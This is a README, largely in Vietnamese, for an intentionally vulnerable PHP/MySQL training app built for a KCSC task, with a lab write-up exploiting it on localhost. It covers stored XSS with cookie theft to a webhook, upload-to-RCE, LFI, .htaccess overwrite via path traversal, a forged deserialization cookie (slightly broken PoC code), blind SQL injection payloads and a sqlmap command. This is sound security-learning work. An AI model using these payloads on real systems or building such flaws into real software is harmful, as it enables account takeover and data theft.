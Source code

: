 ### Task 1 KCSC
- Technology : php, mysql, xdebug, mysqli

## I. Giới Thiệu : Demo basic vulnerability

# Login:
![Alt text](./image_Readme/image.png)
- Sau khi login sẽ chuyển đến index.php

# Remember user
- Click in remember me : hệ thống sẽ tự ghi nhớ user ghi đăng nhập lần tiếp theo


# Register
![Alt text](./image_Readme/image-1.png)
- Sau khi register sẽ chuyển đến login.php để đăng nhập

# Giao diện chính user

1, View post only by user
![Alt text](./image_Readme/image-2.png)

2, User can comment into post
![Alt text](./image_Readme/image-3.png)
![Alt text](./image_Readme/image-4.png)

3, User can view all of post by admin and click to read post details
![Alt text](./image_Readme/image-5.png)

# Giao diện phụ guest
![Alt text](./image_Readme/image-15.png)

# NavBar
![Alt text](./image_Readme/image-16.png)


# Menu user when click avatar option
If your role is admin, you can see dashboard else you can't
![Alt text](./image_Readme/image-6.png)
1, Dashboard admin only
  1.1, View main dashboard
  ![Alt text](./image_Readme/image-7.png)
  - Click in button  Back to MainPage to redirect index.php
  - Admin can see all of user
  ![Alt text](./image_Readme/image-8.png)

  1.2, Click in User in sidebar admin can see management users table have columns email, role, ...
  ![Alt text](./image_Readme/image-9.png)
  - Click in button Delete admin can delete this user
  - Click in button Edit admin can edit this user
  ![Alt text](./image_Readme/image-10.png)
  - Click in button Add user admin can view dialog add new user and click in add to add new user else close dialog
  ![Alt text](./image_Readme/image-11.png)

  1.3, Click in Post in sidebar admin can see management posts table have columns id, image, ...
  ![Alt text](./image_Readme/image-12.png)
  - Click in button Delete admin can delete this post
  - Click in button Edit admin can edit this post
  ![Alt text](./image_Readme/image-13.png)
  - Click in button Add post admin can view dialog add new post and click in add to add new post else close dialog
  ![Alt text](./image_Readme/image-14.png)
2, Change avatar
   ![Alt text](./image_Readme/image-17.png)
   You can upload file to use this avatar and we resize this avatar to 400x400

## II. Vulnerability in this demo APP

1, Store XSS

![Alt text](./image_Readme/image-18.png)
![Alt text](./image_Readme/image-19.png)
![Alt text](./image_Readme/image-20.png)
- Where edit and add users or port for admin
![Alt text](./image_Readme/image-28.png)

+ attack : có trong các trang index.php manage_post và user.
![Alt text](./image_rm/image.png)
- Sau khi login nếu click user_remember sẽ set cookie và check trong db có user không nếu có sẽ redirect qua trang index.php và set Session cho người dùng
- Sau đó em post 1 comment vào blog của admin hoặc bất kì user nào
![Alt text](./image_rm/image-1.png)
- Comment của em hiển thị với chức năng như 1 thẻ <script> trong page
![Alt text](./image_rm/image-2.png)
- Và đây là lỗ hổng store XSS vì em có lưu nội dung của comment trong database
![Alt text](./image_rm/image-3.png)
Bởi vì tất cả user sau khi đăng nhập đều có thể dùng page này nên em sẽ khai thác XSS<có thể thử hầu hết các payload của XSS và thành công> như sau: có thể dùng webhook hoặc pipedream.com để bắt cookie của victim ạ

- ở đây em dùng webhook
![Alt text](./image_rm/image-4.png)
Và sau khi load ảnh error thì sẽ gửi request đến webhook kèm cookie của nạn nhận với bất kì người dùng nào truy cập trang này
![Alt text](./image_rm/image-5.png)
![Alt text](./image_rm/image-6.png)



2, Upload file not filter basic
I will update filter for you try hard @@
![Alt text](./image_Readme/image-21.png)
![Alt text](./image_Readme/image-22.png)
![Alt text](./image_Readme/image-23.png) 


+attack:
![Alt text](./image_rm/image-7.png) 
- em upload 1 file php in ra nội dung của phpinfo();
![Alt text](./image_rm/image-8.png)
- Sau đó em mở file này ra thì được kết quả
![Alt text](./image_rm/image-9.png)
- Vậy là mình có thể upload bất kì đoạn code của php và RCE được sever

3, Local file inclusion <basic filter>
![Alt text](./image_Readme/image-24.png)
- Em truy cập vào trang guest.php và dùng fuff để fuzz thì tìm thấy có 1 param mà trang web nhận đó là page và sẽ include nội dung của bất kỳ file nào truyền vào
![Alt text](./image_rm/image-10.png)
- Em đọc được file .htaccess cho phép file txt được chạy như file php từ đó nếu đoạn upload file mà filter file php thì em có thể upload file txt và RCE tương tự như trên
- Em có thể đọc nội dung của bất kì trang nào bằng cách truyền vào param page này :<

4, Upload file to rewrite .htaccess
![Alt text](./image_Readme/image-25.png)
Example : I rewrite .htaccess allow run file txt same php
![Alt text](./image_Readme/image-26.png)
- có thể thấy là page đã hidden 1 ô input để điều khiển vị trị khi upload của người dùng
- Nếu em không thay đổi default thì page sẽ trỏ đến mặc định ạ còn nếu có thì sẽ gắn thêm path này vào route upload file
![Alt text](./image_rm/image-11.png)
- nên em sẽ lợi dụng để truyền thành upload via path traversal file .htaccess ạ
- Em để file .htaccess thành trống để xem thay đổi
![Alt text](./image_rm/image-12.png)
![Alt text](./image_rm/image-13.png)
- em đổi thành  ../../ để chuyển ra được thư mục chính cùng cấp với index và rewrite file .htaccess
![Alt text](./image_rm/image-14.png)
Lúc này em được quyền chạy file txt như là php và đây cũng là 1 cách đơn giản để vượt qua bypass đuôi file .php ạ.


5, Deserialize vulnerabilities
Chức năng remember me chứa lỗ hổng này . Khi remember me set remember_data và khi vào lại thì check cookie xem có không deserialize

attack :
- Khi mà login thì có check xem có ghi nhớ người dùng hay không Nếu mà có thì sau khi check user có tồn tại hay không thì sẽ seri sau đó sẽ serialize rồi base64 encode và lưu vào cookie với tên là user_remember
- Lần sau khi người dùng đăng nhập lại sẽ check nếu có cookie user_remember thì sẽ base64 decode và deserialize và gán thẳng vào $_SESSION của người dùng luôn nên lỗi ở đây là mình có thể chuyển role của người dùng thành admin và mình có thể authorization dasboard của admin ạ

![Alt text](./image_rm/image-15.png)
- Đây là hàm check ạ 
![Alt text](./image_rm/image-16.png)

Burp suite :
Em  tạo 1 tài khoản bất kì thì mặc định role là không phải admin sau đó em đăng nhập và ấn remeber me thì sẽ set user_remeber
POC.php
<?php
class User_remember
{
                                        private $id;
                                        private $username;
                                        private $email;
                                        private $admin;

                                        public function __construct($id, $username, $email, $admin)
                                        {
                                                                                $this->id = $id;
                                                                                $this->username = $username;
                                                                                $this->admin = $admin;
                                                                                $this->email = $email;
                                        }
                                        public function getName()
                                        {
                                                                                return $this->username;
                                        }
                                        public function getRole()
                                        {
                                                                                return $this->admin;
                                        }
                                        public function getId()
                                        {
                                                                                return  $this->id;
                                        }
                                        public function getEmail()
                                        {
                                                                                return $this->email;
                                        }
}

$attachment = new Attachment($id_default, $username_default, $email_default, 1);
echo base64_encode(serialize($attachment));

?>
sau đó 
POC.py
////
ookie = {'user_remember': base64_encode(serialize($attachment));}
r=requests.get(
    "http://localhost/task_KCSC/app/admin/index.php",
    cookies= cookie
)
data=json.loads(r.content.decode())
print(data['output'][4:])

///
cách bằng tay ạ :
![Alt text](./image_rm/image-18.png)
![Alt text](./image_rm/image-19.png)
Sau đó em chuyển thành 1 ở đoạn role 
![Alt text](./image_rm/image-20.png) 
và gắn vào lại cookie truy cập vào dasboard của admin
![Alt text](./image_rm/image-21.png)

-Em đang phát triển chức năng ghi logs to RCE<Lấy ý tưởng của KCSC recruite ạ>

6. Blind SQL injection
![Alt text](./image_Readme/image-29.png)
Hihi em không biết nên áp dụng blind sqli kiểu chi trong trường hợp product nên làm kiểu này ạ ^^

![Alt text](./image_rm/image-17.png)
- Đây là hàm dính lỗi ạ
![Alt text](./image_rm/image-22.png)
- nếu mà quản trị viên tìm email của user này nếu tồn tại sẽ trả về còn không thì sẽ không trả về gì ạ.
- Em sẽ sử dụng điều kiện và substring để dumb db ạ<em chưa dumb thử bằng sqlmap nhưng mà chắc cũng được ạ:v>
+ Đầu tiên em sẽ dùng payload email = llam16219@gmail.com' OR 1=1-- - câu lệnh query sẽ trở thành 
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' OR 1=1-- -'" đoạn sau sẽ comments và câu lệnh đúng
+ sau đó em chuyển thành "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND 1=1-- -'"
+ Để check rằng 2 điều kiện của em là luôn đúng thì sẽ trả ra exist user
![Alt text](./image_rm/image-23.png)
- Nếu em không biết trước loại database thì em sẽ check xem loại db gì và ở đây em đã thử được của mysql 
- Sau đó sẽ tìm thông tin password, email trong database của admin bằng cách sau 
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND (SELECT length(password) FROM users WHERE role=1 LIMIT 1)>'$a' -- -'"
- Chuyển các giá trị được đánh dấu đô la trong lệnh trên các list là number để check nếu không còn tồn tại User exists nữa thì sẽ là độ dài password tại đó

          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND (SELECT SUBSTRING(password,$1,1) FROM users WHERE role=1 LIMIT 1)='$a' -- -'"
- Chuyển các giá trị được đánh dấu đô la trong lệnh trên các list là number và brute-force tất cả chữ cái chữ số và kí tự đặc biệt và chọn pitch-force để check hết tất cả
Hihi cái này em băm mật khẩu ra md5 nên nó khá lâu ạ nên em xin phép chuyển qua check username ạ :<
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com'+AND+(SELECT+SUBSTRING(username,$1,1)+FROM+users+WHERE+role=1+LIMIT+1)+=+'$a'--+-'"
- có bước tìm length của password cũng tương tự ạ nhưng mà chỉ 1 payload number và dùng sniper ạ
![Alt text](./image_rm/image-25.png)
![Alt text](./image_rm/image-26.png)
![Alt text](./image_rm/image-27.png)
- Sau đó em chỉnh đoạn lọc của kết quả :
![Alt text](./image_rm/image-28.png)
+
![Alt text](./image_rm/image-29.png)
Đoạn cột 1 thì sẽ là vị trí của chuỗi ạ và đoạn code 2 là giá trị của chuỗi và ghép lại sẽ được username của user ạ
# Sử dụng sqlmap :
sqlmap -u "http://localhost/task_KCSC/app/admin/index.php" --data="email_exist=llam16219@gmail.com*&btn_emai_exist=" --method POST -dbs --batch để lấy tên tất cả các tables.



7, Cmd injection <đang phát triển> tại không biết nhiều ứng dụng khi dùng exec nên em chưa dùng nhiều :<
Trong main_upload_image để convert size image
![Alt text](./image_Readme/image-27.png)
mà tên file mình có thể config được nên có thể Blind Cmd injection mà này em chưa test linux nên chưa thử được ạ :3

8, Disclosure information
- Lộ file .htaccess and /robots.txt ạ:v


